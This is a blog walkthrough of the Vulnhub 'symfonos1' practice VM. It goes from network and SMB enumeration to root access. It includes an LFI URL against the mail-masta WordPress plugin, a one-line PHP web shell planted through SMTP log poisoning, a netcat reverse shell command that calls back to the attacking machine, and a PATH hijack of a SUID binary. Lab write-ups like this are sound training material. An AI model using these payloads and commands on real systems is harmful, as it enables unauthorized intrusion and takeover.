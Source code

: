 ```yaml
---
layout: post
title: "symfonos1 - Vulnhub Boot2Root"
date: 2020-06-27
excerpt: "Walkthrough for the symfonos1 VM"
tags: [vulnhub, symfonos, symfonos1, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the first box, the easiest in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I ran `netdiscover -i eth0` to find the IP address of the machine.

![symfonos1 netdiscover](/assets/img/symfonos1-1.png)

Now that we have located the IP address of our target, we can proceed with performing an **nmap** scan to search for open ports, protocols and their versions.

![symfonos1 nmap](/assets/img/symfonos1-2.png)

Based on the scan, we can see that ssh, smtp, netbios and smb are running, along with an Apache webserver on port 80. Visiting the webpage brings us to a page with nothing special on it, just a background image.

![symfonos1 home page](/assets/img/symfonos1-3.png)

At this point, I elected to run **dirb** to enumerate the website. It came back with minimal results using the big.txt wordlist, as it just had a list of Apache's manual directories.

![symfonos1 dirb](/assets/img/symfonos1-4.png)

I next turned my attention to SMB that was running over port 445. I was able to connect as an anonymous user using **rpcclient** as shown below.

![symfonos1 rpcclient](/assets/img/symfonos1-5.png)

Running `enumdomusers` results in a user, helios, being uncovered. Running `queryuser 0x3e8` displays info about that user. `getdompwinfo` displays that the minimum characters for the password are set to 5. However before attempting to brute force the password, I wanted to enumerate the smb shares based on the result of the **nmap** scan.

![symfonos1 rpcclient info](/assets/img/symfonos1-6.png)

Next, I ran the smb-enum-shares script with nmap to enumerate smb shares.

![symfonos1 rpcclient nmap smb-enum-shares](/assets/img/symfonos1-7.png)

This showed several different shares that could be connected to anonymously **\\192.168.68.137\anonymous, \\192.168.68.137\IPC$,** and **\\192.168.68.137\print$**. There was also a **\\192.168.68.137\helios** share present that anonymous/guest access was disabled on.

At this point, I tried to connect to the shares anonymous could access to see if anything could be pilfered. This was done with **smbclient**. The anonymous share was the first to be checked. Upon connecting, there was an attention.txt file present.

![symfonos1 smbclient anonymous share](/assets/img/symfonos1-8.png)

I downloaded the file, dropped the smb connection, and read the file locally with **cat**.

![symfonos1 smbclient attention.txt](/assets/img/symfonos1-9.png)

This file lists 3 potential passwords, and we already uncovered the **helios** user earlier while running rpcclient. Let's try to connect to his share via SMB with these passwords.

![symfonos1 smbclient helios share](/assets/img/symfonos1-10.png)

Success, we were able to connect with the password of **qwerty** as helios to his directory. As shown above, there were two files in that directory we saved with **get**.

![symfonos1 research.txt todo.txt](/assets/img/symfonos1-11.png)

The **research.txt** file had info about Helios, but nothing relevant to enumerating further. The second file mentions a /h3l105 folder. Let's see what happens when we append this to the end of the website url.

![symfonos1 research.txt h3l105](/assets/img/symfonos1-12.png)

It appears that this is a wordpress site, but it is not loading completely because it's trying to access symfonos.local, lets add that to our attacking machine's host file and reload the page. This is done by running `nano /etc/hosts` and adding it as shown in the screenshot below:

![symfonos1 etc/hosts](/assets/img/symfonos1-13.png)

Once saved, reload the page again. You should now see the page properly and a login page. Next, we will use wp-scan to enumerate plugins for possible vulnerabilities.

![symfonos1 wp-scan enumerate plugins](/assets/img/symfonos1-14.png)

## Exploitation

You will come across mail-masta as one of the plugins in use. A quick Google search leads to an exploit for this on [Exploit-DB](https://www.exploit-db.com/exploits/40290).

![symfonos1 LFI exploit](/assets/img/symfonos1-15.png)

Modify the sample code and use the following url to pull a list of users on the system `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

![symfonos1 LFI etc/passwd](/assets/img/symfonos1-16.png)

Now that we are sure that LFI works, we can attempt SMTP poisoning to utilize RCE. This is accomplished with running `telnet symfonos.local 25`.

![symfonos1 smtp](/assets/img/symfonos1-17.png)

We will now send an email to Helios with a 1 line of PHP code that allows for RCE: `<?php system($_GET['c']); ?>`.

![symfonos1 smtp send](/assets/img/symfonos1-18.png)

Navigating to `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=pwd` will print the working directory after the output of helios' mail.

![symfonos1 smtp RCE](/assets/img/symfonos1-19.png)

This means we should be able to create a reverse shell, lets create a netcat listener on our attacking machine with `nc -nvlp 5555` and then navigate to `symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/sh 192.168.68.135 5555` in the web browser and press enter, this should connect to your netcat listener.

![symfonos1 website RCE](/assets/img/symfonos1-20.png)
![symfonos1 netcat connection](/assets/img/symfonos1-21.png)

Next, we will create a TTY shell with `python -c 'import pty;pty.spawn("/bin/bash")'`.

![symfonos1 python tty shell](/assets/img/symfonos1-22.png)

Then, we will use the following `find / -perm -u=s -type f 2>/dev/null` to find all the programs that run with SUID.

![symfonos1 find](/assets/img/symfonos1-23.png)

One that stands out is **/opt/statuscheck** which has a **curl** command embedded in it when reviewing the binary with `strings /opt/statuscheck`.

![symfonos1 statuscheck](/assets/img/symfonos1-24.png)

We will take advantage of this by copying the bash shell into a curl binary in the temp directory and temporarily changing the $PATH variable to run this command instead of curl as shown below.

![symfonos1 root shell](/assets/img/symfonos1-25.png)

At this point you have root! Navigate to /root and run ls to list files, you should see **proof.txt**. Run `cat proof.txt` to view the contents of this file to finish the box.

![symfonos1 root proof.txt](/assets/img/symfonos1-26.png)










